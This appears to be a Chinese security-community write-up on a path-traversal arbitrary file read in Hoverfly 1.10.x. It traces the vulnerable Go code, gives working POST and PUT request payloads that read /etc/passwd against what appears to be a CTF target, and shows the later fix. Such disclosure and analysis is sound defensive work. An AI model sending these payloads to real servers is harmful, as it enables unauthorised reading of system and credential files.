






# Hoverfly v1.10.3任意文件读取两种方法挖掘调试分析-先知社区

> **来源**: https://xz.aliyun.com/news/16645  
> **文章ID**: 16645

---

## Hoverfly前言

Hoverfly 是一个为开发人员和测试人员提供的轻量级服务虚拟化/API模拟/API模拟工具。其 `/api/v2/simulation` 的 POST 处理程序允许用户从用户指定的文件内容中创建新的模拟视图。

使用 Hoverfly，可以创建应用程序依赖的 API 的真实模拟。

* 创建可重复使用的虚拟服务，在 CI 环境中替代缓慢和不稳定的外部或第三方服务
* 模拟网络延迟，随机故障或速率限制以测试边缘情况
* 使用多种编程语言扩展和自定义， 包括 Go，Java，Javascript，Python
* 导出，共享，编辑和导入 API 模拟数据
* 提供方便易用的命令行界面 hoverctl
* Java 和 Python 的语言绑定
* REST API
* 使用 Go 编写，轻巧，高性能，可在任何地方运行
* 提供多种运行模式，可以对 HTTP 响应进行记录，回放，修改或合成。

## Hoverfly漏洞原理

Hoverfly路由/api/v2/simulation 允许用户从用户指定文件的内容创建新的模拟视图，可以滥用此功能从 Hoverfly 服务器读取任意文件。尽管代码禁止指定绝对路径，但攻击者可以通过使用 `../` 段来逃离 `hf.Cfg.ResponsesBodyFilesPath` 基本路径，从而访问任何任意文件。

## Hoverfly 环境搭建

我们采用docker方式拉镜像



```
docker pull spectolabs/hoverfly:v1.10.2
docker run -d -p 8888:8888 -p 8500:8500 spectolabs/hoverfly:v1.10.2
```

## Hoverfly 任意文件读取漏洞分析

我们先定位到路由代码文件

```
hoverfly-1.10.2\core\handlers\v2\simulation_handler.go#RegisterRoutes
```

找到主要函数

```
func (this *SimulationHandler) RegisterRoutes(mux *bone.Mux, am *handlers.AuthHandler) {
    mux.Get("/api/v2/simulation", negroni.New(
        negroni.HandlerFunc(am.RequireTokenAuthentication),
        negroni.HandlerFunc(this.Get),
    ))
    mux.Put("/api/v2/simulation", negroni.New(
        negroni.HandlerFunc(am.RequireTokenAuthentication),
        negroni.HandlerFunc(this.Put),
    ))
    mux.Post("/api/v2/simulation", negroni.New(
        negroni.HandlerFunc(am.RequireTokenAuthentication),
        negroni.HandlerFunc(this.Post),
    ))
    mux.Delete("/api/v2/simulation", negroni.New(
        negroni.HandlerFunc(am.RequireTokenAuthentication),
        negroni.HandlerFunc(this.Delete),
    ))
    mux.Options("/api/v2/simulation", negroni.New(
        negroni.HandlerFunc(this.Options),
    ))

    mux.Get("/api/v2/simulation/schema", negroni.New(
        negroni.HandlerFunc(am.RequireTokenAuthentication),
        negroni.HandlerFunc(this.GetSchema),
    ))
    mux.Options("/api/v2/simulation/schema", negroni.New(
        negroni.HandlerFunc(this.Options),
    ))
}
```

定义了 SimulationHandler​ 的路由注册方法，路由的每个 HTTP 方法都有一个对应的处理函数

* `PUT /api/v2/simulation`: 处理更新模拟数据。
* `POST /api/v2/simulation`: 处理创建新的模拟数据

接着发现PUT和POST方法只有最后一个参数的值不一样，之后我们往后面跟踪漏洞会发现两种请求方式都可以实现任意文件读取

```
func (this *SimulationHandler) Put(w http.ResponseWriter, req *http.Request, next http.HandlerFunc) {
    err := this.addSimulation(w, req, true)
    if err != nil {
        return
    }

    this.Get(w, req, next)
}

func (this *SimulationHandler) Post(w http.ResponseWriter, req *http.Request, next http.HandlerFunc) {
    err := this.addSimulation(w, req, false)
    if err != nil {
        return
    }

    this.Get(w, req, next)
}
```

我们跟踪函数`addSimulation`发现正是由于第三个参数不同（一个是true一个是false）导致 PUT 方法在获取新的模型内容时，会先删除前一个模拟内容，攻击者利用次特点可以重复读取不同文件内容。但是POST 仅仅只能读取一次文件内容，无法重复利用。  
  
源码

```
func (this *SimulationHandler) addSimulation(w http.ResponseWriter, req *http.Request, overrideExisting bool) error {
    body, _ := ioutil.ReadAll(req.Body)

    simulationView, err := NewSimulationViewFromRequestBody(body)
    if err != nil {
        handlers.WriteErrorResponse(w, err.Error(), http.StatusBadRequest)
        return err
    }

    if overrideExisting {
        this.Hoverfly.DeleteSimulation()
    }

    result := this.Hoverfly.PutSimulation(simulationView)
    if result.Err != nil {

        log.WithFields(log.Fields{
            "body": string(body),
        }).Debug(result.Err.Error())

        handlers.WriteErrorResponse(w, "An error occurred: "+result.Err.Error(), http.StatusInternalServerError)
        return result.Err
    }
    if len(result.WarningMessages) > 0 {
        bytes, _ := util.JSONMarshal(result)

        handlers.WriteResponse(w, bytes)
        return fmt.Errorf("import simulation result has warnings")
    }
    return nil
}
```

接着跟进`PutSimulation`函数  
  
再次跟进`putOrReplaceSimulation`函数找到一个读取文件函数  


跟进找到最终的漏洞文件`hoverfly-1.10.2\core\hoverfly_funcs.go`

整体调用栈如下

```
Hoverfly.PutSimulation->putOrReplaceSimulation->readResponseBodyFiles
```

漏洞文件源码

```
package hoverfly

import (
    "fmt"
    "io/ioutil"
    "net/http"
    "path/filepath"
    "strings"

    "github.com/SpectoLabs/hoverfly/core/errors"
    v2 "github.com/SpectoLabs/hoverfly/core/handlers/v2"
    "github.com/SpectoLabs/hoverfly/core/matching"
    "github.com/SpectoLabs/hoverfly/core/matching/matchers"
    "github.com/SpectoLabs/hoverfly/core/models"
    "github.com/SpectoLabs/hoverfly/core/modes"
    "github.com/SpectoLabs/hoverfly/core/util"
    "github.com/aymerick/raymond"
    log "github.com/sirupsen/logrus"
)

// DoRequest - performs request and returns response that should be returned to client and error
func (hf *Hoverfly) DoRequest(request *http.Request) (*http.Response, error) {

    // We can't have this set. And it only contains "/pkg/net/http/" anyway
    request.RequestURI = ""

    client, err := GetHttpClient(hf, request.Host)
    if err != nil {
        return nil, err
    }
    resp, err := client.Do(request)

    if err != nil {
        return nil, err
    }

    resp.Header.Set("Hoverfly", "Was-Here")

    if hf.Cfg.Mode == "spy" {
        resp.Header.Add("Hoverfly", "Forwarded")
    }

    return resp, nil

}

// GetResponse returns stored response from cache
func (hf *Hoverfly) GetResponse(requestDetails models.RequestDetails) (*models.ResponseDetails, *errors.HoverflyError) {
    var response models.ResponseDetails
    var cachedResponse *models.CachedResponse

    cachedResponse, cacheErr := hf.CacheMatcher.GetCachedResponse(&requestDetails)

    // Get the cached response and return if there is a miss
    if cacheErr == nil && cachedResponse.MatchingPair == nil {
        return nil, errors.MatchingFailedError(cachedResponse.ClosestMiss)
        // If it's cached, use that response
    } else if cacheErr == nil {
        response = cachedResponse.MatchingPair.Response
        //If it's not cached, perform matching to find a hit
    } else {
        mode := (hf.modeMap[modes.Simulate]).(*modes.SimulateMode)

        // Matching
        result := matching.Match(mode.MatchingStrategy, requestDetails, hf.Cfg.Webserver, hf.Simulation, hf.state)

        // Cache result
        if result.Cacheable {
            cachedResponse, _ = hf.CacheMatcher.SaveRequestMatcherResponsePair(requestDetails, result.Pair, result.Error)
        }

        // If we miss, just return
        if result.Error != nil {
            log.WithFields(log.Fields{
                "error":       result.Error.Error(),
                "query":       requestDetails.Query,
                "path":        requestDetails.Path,
                "destination": requestDetails.Destination,
                "method":      requestDetails.Method,
            }).Warn("Failed to find matching request from simulation")

            return nil, errors.MatchingFailedError(result.Error.ClosestMiss)
        } else {
            response = result.Pair.Response
        }
    }

    // Templating applies at the end, once we have loaded a response. Comes BEFORE state transitions,
    // as we use the current state in templates
    if response.Templated == true {
        responseBody, err := hf.applyBodyTemplating(&requestDetails, &response, cachedResponse)
        if err == nil {
            response.Body = responseBody
        } else {
            log.Warnf("Failed to applying body templating: %s", err.Error())
        }

        responseHeaders, err := hf.applyHeadersTemplating(&requestDetails, &response, cachedResponse)
        if err == nil {
            response.Headers = responseHeaders
        } else {
            log.Warnf("Failed to applying headers templating: %s", err.Error())
        }

        responseTransitionsState, err := hf.applyTransitionsStateTemplating(&requestDetails, &response, cachedResponse)
        if err == nil {
            response.TransitionsState = responseTransitionsState
        } else {
            log.Warnf("Failed to applying transitions state templating: %s", err.Error())
        }
    }

    // State transitions after we have the response
    if response.TransitionsState != nil {
        hf.state.PatchState(response.TransitionsState)
    }

    if response.RemovesState != nil {
        hf.state.RemoveState(response.RemovesState)
    }

    return &response, nil
}

func (hf *Hoverfly) readResponseBodyFiles(pairs []v2.RequestMatcherResponsePairViewV5) v2.SimulationImportResult {
    result := v2.SimulationImportResult{}

    for i, pair := range pairs {
        if len(pair.Response.GetBody()) > 0 && len(pair.Response.GetBodyFile()) > 0 {
            result.AddBodyAndBodyFileWarning(i)
            continue
        }

        if len(pair.Response.GetBody()) == 0 && len(pair.Response.GetBodyFile()) > 0 {
            var content string
            var err error

            bodyFile := pair.Response.GetBodyFile()

            if util.IsURL(bodyFile) {
                content, err = hf.readResponseBodyURL(bodyFile)
            } else {
                content, err = hf.readResponseBodyFile(bodyFile)
            }

            if err != nil {
                result.SetError(fmt.Errorf("data.pairs[%d].response %s", i, err.Error()))
                return result
            }

            pairs[i].Response.Body = content
        }
    }

    return result
}

func (hf *Hoverfly) readResponseBodyURL(fileURL string) (string, error) {
    isAllowed := false
    for _, allowedOrigin := range hf.Cfg.ResponsesBodyFilesAllowedOrigins {
        if strings.HasPrefix(fileURL, allowedOrigin) {
            isAllowed = true
            break
        }
    }

    if !isAllowed {
        return "", fmt.Errorf("bodyFile %s is not allowed. To allow this origin run hoverfly with -response-body-files-allow-origin", fileURL)
    }

    resp, err := http.DefaultClient.Get(fileURL)
    if err != nil {
        err := fmt.Errorf("bodyFile %s cannot be downloaded: %s", fileURL, err.Error())
        return "", err
    }

    content, err := util.GetResponseBody(resp)
    if err != nil {
        err := fmt.Errorf("response from bodyFile %s cannot be read: %s", fileURL, err.Error())
        return "", err
    }

    return content, nil
}

func (hf *Hoverfly) readResponseBodyFile(filePath string) (string, error) {
    if filepath.IsAbs(filePath) {
        return "", fmt.Errorf("bodyFile contains absolute path (%s). only relative is supported", filePath)
    }

    fileContents, err := ioutil.ReadFile(filepath.Join(hf.Cfg.ResponsesBodyFilesPath, filePath))
    if err != nil {
        return "", err
    }

    return string(fileContents[:]), nil
}

func (hf *Hoverfly) applyTransitionsStateTemplating(requestDetails *models.RequestDetails, response *models.ResponseDetails, cachedResponse *models.CachedResponse) (map[string]string, error) {
    if response.TransitionsState == nil {
        return nil, nil
    }

    var stateTemplates map[string]*raymond.Template
    if cachedResponse != nil && cachedResponse.ResponseStateTemplates != nil {
        stateTemplates = cachedResponse.ResponseStateTemplates
    } else {
        stateTemplates = map[string]*raymond.Template{}
        for k, v := range response.TransitionsState {
            stateTemplates[k], _ = hf.templator.ParseTemplate(v)
        }

        if cachedResponse != nil {
            cachedResponse.ResponseStateTemplates = stateTemplates
        }
    }

    var err error
    state := make(map[string]string)

    for k, v := range stateTemplates {
        state[k], err = hf.templator.RenderTemplate(v, requestDetails, hf.Simulation.Literals, hf.Simulation.Vars, hf.state.State)
        if err != nil {
            return nil, err
        }
    }

    return state, nil
}

func (hf *Hoverfly) applyBodyTemplating(requestDetails *models.RequestDetails, response *models.ResponseDetails, cachedResponse *models.CachedResponse) (string, error) {
    var template *raymond.Template
    if cachedResponse != nil && cachedResponse.ResponseTemplate != nil {
        template = cachedResponse.ResponseTemplate
    } else {
        // Parse and cache the template
        template, _ = hf.templator.ParseTemplate(response.Body)
        if cachedResponse != nil {
            cachedResponse.ResponseTemplate = template
        }
    }

    return hf.templator.RenderTemplate(template, requestDetails, hf.Simulation.Literals, hf.Simulation.Vars, hf.state.State)
}

func (hf *Hoverfly) applyHeadersTemplating(requestDetails *models.RequestDetails, response *models.ResponseDetails, cachedResponse *models.CachedResponse) (map[string][]string, error) {
    var headersTemplates map[string][]*raymond.Template
    if cachedResponse != nil && cachedResponse.ResponseHeadersTemplates != nil {
        headersTemplates = cachedResponse.ResponseHeadersTemplates
    } else {
        var header []*raymond.Template
        headersTemplates = map[string][]*raymond.Template{}
        // Parse and cache headers templates
        for k, v := range response.Headers {
            header = make([]*raymond.Template, len(v))
            for i, h := range v {
                header[i], _ = hf.templator.ParseTemplate(h)
            }

            headersTemplates[k] = header
        }

        if cachedResponse != nil {
            cachedResponse.ResponseHeadersTemplates = headersTemplates
        }
    }

    var (
        header []string
        err    error
    )
    headers := map[string][]string{}

    // Render headers templates
    for k, v := range headersTemplates {
        header = make([]string, len(v))
        for i, h := range v {
            header[i], err = hf.templator.RenderTemplate(h, requestDetails, hf.Simulation.Literals, hf.Simulation.Vars, hf.state.State)

            if err != nil {
                return nil, err
            }
        }
        headers[k] = header
    }

    return headers, nil
}

// save gets request fingerprint, extracts request body, status code and headers, then saves it to cache
func (hf *Hoverfly) Save(request *models.RequestDetails, response *models.ResponseDetails, modeArgs *modes.ModeArguments) error {
    body := []models.RequestFieldMatchers{
        {
            Matcher: matchers.Exact,
            Value:   request.Body,
        },
    }
    contentType := util.GetContentTypeFromHeaders(request.Headers)
    if contentType == "json" {
        body = []models.RequestFieldMatchers{
            {
                Matcher: matchers.Json,
                Value:   request.Body,
            },
        }
    } else if contentType == "xml" {
        body = []models.RequestFieldMatchers{
            {
                Matcher: matchers.Xml,
                Value:   request.Body,
            },
        }
    } else if contentType == "form" {
        if len(request.FormData) > 0 {
            form := make(map[string][]models.RequestFieldMatchers)
            for formKey, formValue := range request.FormData {
                form[formKey] = []models.RequestFieldMatchers{
                    {
                        Matcher: matchers.Exact,
                        Value:   formValue[0],
                    },
                }
            }
            body = []models.RequestFieldMatchers{
                {
                    Matcher: "form",
                    Value:   form,
                },
            }
        }
    }

    var headers map[string][]string

    if len(modeArgs.Headers) >= 1 {
        if modeArgs.Headers[0] == "*" {
            headers = request.Headers
        } else {
            headers = map[string][]string{}
            for _, header := range modeArgs.Headers {
                headerValues := request.Headers[header]
                if len(headerValues) > 0 {
                    headers[header] = headerValues
                }
            }
        }
    }

    var requestHeaders map[string][]models.RequestFieldMatchers
    if len(headers) > 0 {
        requestHeaders = map[string][]models.RequestFieldMatchers{}
        for key, values := range headers {
            requestHeaders[key] = getRequestMatcherForMultipleValues(values)
        }
    }

    var queries *models.QueryRequestFieldMatchers
    if len(request.Query) > 0 {
        queries = &models.QueryRequestFieldMatchers{}
        for key, values := range request.Query {
            queries.Add(key, getRequestMatcherForMultipleValues(values))
        }
    }

    pair := models.RequestMatcherResponsePair{
        RequestMatcher: models.RequestMatcher{
            Path: []models.RequestFieldMatchers{
                {
                    Matcher: matchers.Exact,
                    Value:   request.Path,
                },
            },
            Method: []models.RequestFieldMatchers{
                {
                    Matcher: matchers.Exact,
                    Value:   request.Method,
                },
            },
            Destination: []models.RequestFieldMatchers{
                {
                    Matcher: matchers.Exact,
                    Value:   request.Destination,
                },
            },
            Scheme: []models.RequestFieldMatchers{
                {
                    Matcher: matchers.Exact,
                    Value:   request.Scheme,
                },
            },
            Query:   queries,
            Body:    body,
            Headers: requestHeaders,
        },
        Response: *response,
    }
    if modeArgs.Stateful {
        hf.Simulation.AddPairInSequence(&pair, hf.state)
    } else if modeArgs.OverwriteDuplicate {
        hf.Simulation.AddPairWithOverwritingDuplicate(&pair)
    } else {
        hf.Simulation.AddPair(&pair)
    }

    return nil
}

func (hf *Hoverfly) ApplyMiddleware(pair models.RequestResponsePair) (models.RequestResponsePair, error) {
    if hf.Cfg.Middleware.IsSet() {
        return hf.Cfg.Middleware.Execute(pair)
    }

    return pair, nil
}

func getRequestMatcherForMultipleValues(values []string) []models.RequestFieldMatchers {
    var matcher string
    var value interface{}
    if len(values) > 1 {
        matcher = matchers.Array
        value = values
    } else {
        matcher = matchers.Exact
        value = strings.Join(values, ";")
    }
    return []models.RequestFieldMatchers{
        {
            Matcher: matcher,
            Value:   value,
        },
    }
}
```

我们看到`hf.Cfg.ResponsesBodyFilesPath`处的代码禁止了读取绝对路径，但攻击者可以使用`../`逃逸出根路径并访问任何任意文件。漏洞产生的关键原因，对传入的参数 filePath 没有做具体的校验

```
func (hf *Hoverfly) readResponseBodyFile(filePath string) (string, error) {
    if filepath.IsAbs(filePath) {
        return "", fmt.Errorf("bodyFile contains absolute path (%s). only relative is supported", filePath)
    }

    fileContents, err := ioutil.ReadFile(filepath.Join(hf.Cfg.ResponsesBodyFilesPath, filePath))
    if err != nil {
        return "", err
    }

    return string(fileContents[:]), nil
}
```

## Hoverfly 任意文件读取漏洞攻击

发送payload包如下，需要用../来回到根目录即可任意文件读取，并且根据上面漏洞分析可知POST方法仅能读取一个文件，之后再读取文件内容不会发生改变

```
POST /api/v2/simulation HTTP/1.1
Host: 20cd93ab-11ee-4b0b-9be6-f63a411a1119.www.polarctf.com:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 126

{"data":{"pairs":[{
"request":{},"response": {
"bodyFile": "../../../../../etc/passwd"}} ]},"meta":{"schemaVersion":"v5.2"}}
```

成功读取  


第二种使用PUT包来任意文件读，并且根据上面漏洞分析可知PUT方法可以重复利用

```
PUT /api/v2/simulation HTTP/1.1
Host: 20cd93ab-11ee-4b0b-9be6-f63a411a1119.www.polarctf.com:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 126

{"data":{"pairs":[{
"request":{},"response": {
"bodyFile": "../../../../../etc/passwd"}} ]},"meta":{"schemaVersion":"v5.2"}}
```

也成功读取  


## Hoverfly漏洞修复

我们下载最新版1.10.5的官方源码  
发现增加了一个`ResolveAndValidatePath`函数判断对传入的参数进行了处理

```
func (hf *Hoverfly) readResponseBodyFile(filePath string) (string, error) {
    if filepath.IsAbs(filePath) {
        return "", fmt.Errorf("bodyFile contains absolute path (%s). only relative is supported", filePath)
    }

    resolvedPath, err := util.ResolveAndValidatePath(hf.Cfg.ResponsesBodyFilesPath, filePath)
    if err != nil {
        return "", err
    }

    fileContents, err := os.ReadFile(resolvedPath)
    if err != nil {
        return "", err
    }

    return string(fileContents[:]), nil
}
```

我们找到找个函数的位置，发现这个 `ResolveAndValidatePath`​ 函数用于从一个绝对路径（`absBasePath`​）解析一个相对路径（`relativePath`​），并验证这个相对路径是否合法。具体来说，它确保了相对路径不会尝试向上回溯（使用 `".."`​），并且解析后的路径仍然在基路径之下。保证了参数的合法性。



```
// Resolves a relative path from an absolute basePath, and fails if the relative path starts with ".."
func ResolveAndValidatePath(absBasePath, relativePath string) (string, error) {

    cleanRelativePath := filepath.Clean(relativePath)

    // Check if the relative path starts with ".."
    if strings.HasPrefix(cleanRelativePath, "..") {
        return "", fmt.Errorf("relative path is invalid as it attempts to backtrack")
    }

    resolvedPath := filepath.Join(absBasePath, cleanRelativePath)

    // Verify that the resolved path is indeed a subpath of the base path
    finalPath, err := filepath.Rel(absBasePath, resolvedPath)
    if err != nil {
        return "", fmt.Errorf("failed to get relative path: %v", err)
    }

    if strings.HasPrefix(finalPath, "..") {
        return "", fmt.Errorf("resolved path is outside the base path")
    }

    return resolvedPath, nil
}
```
